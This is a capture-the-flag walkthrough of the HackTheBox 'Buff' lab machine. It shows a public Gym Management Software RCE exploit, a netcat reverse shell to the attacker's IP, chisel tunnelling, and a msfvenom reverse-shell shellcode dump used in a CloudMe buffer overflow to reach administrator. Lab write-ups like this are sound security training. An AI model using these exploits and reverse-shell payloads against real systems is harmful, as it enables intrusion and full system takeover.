


# Buff - Easy

Target IP: **10.129.2.18**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.2.18 -v```

Output shows port 7680 as tcpwrapped, which means that the host closed the connection. There is also Apache 2.4.43 running on port 8080, and our scans tells us that it is potentially an open proxy.

```
PORT     STATE SERVICE    VERSION
7680/tcp open  tcpwrapped
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
```

Navigating to port 8080, we are greeted with this front page.



Clicking on "Contact," we see that the website is made using Gym Management Software 1.0.



A search online reveals that this is vulnerable to unauthenticated RCE. This is listed on searchsploit.

```
┌──(y㉿peacebreaker)-[~]
└─$ searchsploit gym management          
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                        | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                     | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                               | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                     | php/webapps/48506.py
GYM MS - GYM Management System - Cross Site Scripting (Stored)                                                                        | php/webapps/51777.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's try the python script. After running it, we get a web shell as the ```shaun``` user.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Buff]
└─$ python2 48506.py 'http://10.129.2.18:8080/'         
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                  
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

We can proceed to get the user flag from here.

## Root Flag

Let's get an actual shell.

We can host an smb server to transfer over nc64.exe.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Arctic]
└─$ /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username y -password y   
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
```

```
C:\xampp\htdocs\gym\upload> net use \\10.10.16.68\share /u:y y  
�PNG
▒
The command completed successfully.

C:\xampp\htdocs\gym\upload> copy \\10.10.16.68\share\nc64.exe \programdata\nc.exe
�PNG
▒
        1 file(s) copied.
```

We can now run it to get a connection back on our listener.

```
┌──(y㉿peacebreaker)-[/usr/share/windows-resources/binaries]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.2.18] 49781
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

In ```shaun```'s downloads folder, there is an unusual executable.

```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   8,671,596,544 bytes free
```

There is also an unusual port, 8888, listening on the machine.

```
C:\Users\shaun\Downloads>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       948
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       6344
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       7536
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       7372
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       512
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1112
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1696
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2200
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       656
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       680
  TCP    10.129.2.18:139        0.0.0.0:0              LISTENING       4
  TCP    10.129.2.18:8080       10.10.16.68:40258      ESTABLISHED     7372
  TCP    10.129.2.18:49781      10.10.16.68:4444       ESTABLISHED     668
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       3524
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       7332
```

I'm suspecting that this port is running CloudMe. Let's forward this port. We can transfer chisel over to the machine to do this.

Run the server on our attack box.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Buff]
└─$ chisel server -p 8888 --reverse 
2026/10/13 15:19:31 server: Reverse tunnelling enabled
2026/10/13 15:19:31 server: Fingerprint LSjgfP843Wxz8XCm1VRXUy5+IBc47p5k4Ln9KNkVGQ0=
2026/10/13 15:19:31 server: Listening on http://0.0.0.0:8888
```

Initiating a connection from the remote machine, our tunnel is established.

```
C:\Users\shaun\Downloads>chisel.exe client 10.10.16.68:8889 R:8888:127.0.0.1:8888
chisel.exe client 10.10.16.68:8889 R:8888:10.10.16.68:8888
2026/10/13 20:21:16 client: Connecting to ws://10.10.16.68:8889
2026/10/13 20:21:17 client: Connected (Latency 11.4415ms)
```

Looking on searchsploit, there are exploits listed for CloudMe. The specific version is 1.12.0.

```
┌──(y㉿peacebreaker)-[~]
└─$ searchsploit CloudMe                   
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                                                                | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                                                       | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                                                       | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                                                                      | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                                                                               | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                                                                        | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                                                                           | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                                                       | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                                                              | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                                                                               | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                                                            | windows_x86-64/remote/44784.py
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The buffer overflow can be exploited, but we first need to change the shellcode that we want to run in the script.

Let's generate a reverse shell payload then get the bytes for it.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.68 LPORT=4444 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xd7\xba\x7b\xa6\xe6\xeb\xd9\x74\x24\xf4"
payload += b"\x5e\x29\xc9\xb1\x52\x31\x56\x17\x03\x56\x17"
payload += b"\x83\x95\x5a\x04\x1e\x95\x4b\x4b\xe1\x65\x8c"
payload += b"\x2c\x6b\x80\xbd\x6c\x0f\xc1\xee\x5c\x5b\x87"
payload += b"\x02\x16\x09\x33\x90\x5a\x86\x34\x11\xd0\xf0"
payload += b"\x7b\xa2\x49\xc0\x1a\x20\x90\x15\xfc\x19\x5b"
payload += b"\x68\xfd\x5e\x86\x81\xaf\x37\xcc\x34\x5f\x33"
payload += b"\x98\x84\xd4\x0f\x0c\x8d\x09\xc7\x2f\xbc\x9c"
payload += b"\x53\x76\x1e\x1f\xb7\x02\x17\x07\xd4\x2f\xe1"
payload += b"\xbc\x2e\xdb\xf0\x14\x7f\x24\x5e\x59\x4f\xd7"
payload += b"\x9e\x9e\x68\x08\xd5\xd6\x8a\xb5\xee\x2d\xf0"
payload += b"\x61\x7a\xb5\x52\xe1\xdc\x11\x62\x26\xba\xd2"
payload += b"\x68\x83\xc8\xbc\x6c\x12\x1c\xb7\x89\x9f\xa3"
payload += b"\x17\x18\xdb\x87\xb3\x40\xbf\xa6\xe2\x2c\x6e"
payload += b"\xd6\xf4\x8e\xcf\x72\x7f\x22\x1b\x0f\x22\x2b"
payload += b"\xe8\x22\xdc\xab\x66\x34\xaf\x99\x29\xee\x27"
payload += b"\x92\xa2\x28\xb0\xd5\x98\x8d\x2e\x28\x23\xee"
payload += b"\x67\xef\x77\xbe\x1f\xc6\xf7\x55\xdf\xe7\x2d"
payload += b"\xf9\x8f\x47\x9e\xba\x7f\x28\x4e\x53\x95\xa7"
payload += b"\xb1\x43\x96\x6d\xda\xee\x6d\xe6\xef\xe4\x7d"
payload += b"\xb2\x87\xfa\x7d\x2b\x04\x72\x9b\x21\xa4\xd2"
payload += b"\x34\xde\x5d\x7f\xce\x7f\xa1\x55\xab\x40\x29"
payload += b"\x5a\x4c\x0e\xda\x17\x5e\xe7\x2a\x62\x3c\xae"
payload += b"\x35\x58\x28\x2c\xa7\x07\xa8\x3b\xd4\x9f\xff"
payload += b"\x6c\x2a\xd6\x95\x80\x15\x40\x8b\x58\xc3\xab"
payload += b"\x0f\x87\x30\x35\x8e\x4a\x0c\x11\x80\x92\x8d"
payload += b"\x1d\xf4\x4a\xd8\xcb\xa2\x2c\xb2\xbd\x1c\xe7"
payload += b"\x69\x14\xc8\x7e\x42\xa7\x8e\x7e\x8f\x51\x6e"
payload += b"\xce\x66\x24\x91\xff\xee\xa0\xea\x1d\x8f\x4f"
payload += b"\x21\xa6\xbf\x05\x6b\x8f\x57\xc0\xfe\x8d\x35"
payload += b"\xf3\xd5\xd2\x43\x70\xdf\xaa\xb7\x68\xaa\xaf"
payload += b"\xfc\x2e\x47\xc2\x6d\xdb\x67\x71\x8d\xce"
```

After running the script with our new shellcode, we get a shell as ```administrator```.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Buff]
└─$ python2 48389.py
```

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Buff]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.2.18] 56717
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
